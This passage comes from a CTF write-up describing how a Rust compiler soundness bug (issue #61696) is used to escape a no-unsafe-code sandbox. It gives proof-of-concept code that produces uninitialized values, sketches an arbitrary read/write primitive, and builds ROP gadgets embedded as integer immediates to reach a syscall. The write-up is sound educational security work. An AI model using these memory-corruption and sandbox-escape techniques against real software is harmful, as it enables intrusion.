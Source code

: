 Searching the Rust issue tracker for `I-unsound 💥`, I found [#61696](https://github.com/rust-lang/rust/issues/61696), which looked promising.[^2] I reused snippets from the tracker to come up with a PoC:
```rust
pub enum Void {}

pub enum E1 {
    V1 { f: bool },
    V2 { v: Void },
    V3,
    V4,
}

pub fn void_unwrap<T>(x: Result<T, Void>) -> T {
    match x {
        Ok(val) => val,
        // The compiler thinks this branch is unreachable,
        // because the Void type has no inhabitants, so
        // it should be impossible to produce a value
        // of type Void.
        Err(v) => match v {}
    }
}

/// Makes a value of any type out of thin air.
pub fn mk_any<T>() -> T {
    match (E1::V1 { f: true }) {
        // The actual bug happens here - instead of going
        // into the loop below as it should, control flow
        // matches E1::V1 with E1::V2 and extracts a v: Void.
        E1::V2 { v } => {
            void_unwrap(Err(v))
        }
        _ => loop {}
    }
}
```
Using the function `mk_any` to instantiate a variable effectively leaves it uninitialized - it will reuse whatever value was already on the stack. With this in mind, an uninitialized pointer - `let mut b: Box<usize> = mk_any();` - *should* allow us to access arbitrary memory as long as we can force the stack frame to contain the right address. As it turned out, doing that is not at all so easy, but after writing the PoC I optimistically assumed the arbitrary read/write primitive would work, and went on to write the rest of the exploit.

## The easy-ish part
Assuming an arbitrary R/W in the form of two functions,
```rust
fn read(addr: usize) -> usize;
fn write(addr: usize, val: usize);
```
getting to `mov rax, 1337; syscall;` is simple - just overwrite the on-stack return address with a ROP chain. Although the right gadgets could (and probably do) appear in the binary, it's more convenient to force their existence by using them as immediates:
```rust
// mov rax, 0x1337; ret
// 0x48, 0xC7, 0xC0, 0x37, 0x13, 0x00, 0x00, 0xC3
let gadget1: usize = 0xc300001337c0c748;
// syscall;
// 0x0F, 0x05
let gadget2: usize = 0x050f;
// Use the gadgets in a side-effecting operation to prevent
// the compiler from optimizing them away. This is unnecessarily
// spammy - std::hint::black_box would be better, but is unstable.
println!("{:x} {:x}", gadget1, gadget2);
```

[^1]: Actually the check for `"unsafe"` strings, present in the source, wasn't working on remote, but there is also a `#![forbid(unsafe_code)]` compiler directive in the template, so I couldn't use `unsafe`.
[^2]: After the CTF, it turned out that the intended solution was to use [#57893](https://github.com/rust-lang/rust/issues/57893). The flag lists [#31287](https://github.com/rust-lang/rust/issues/31287), but that's a typo - as I mentioned, it's been fixed by NLL.
[^3]: Up from 36th last year. By induction, in 2020 we'll be (-4)th.
[^4]: Turns out, `&main as *const _` and `main as *const u64` are not the same.
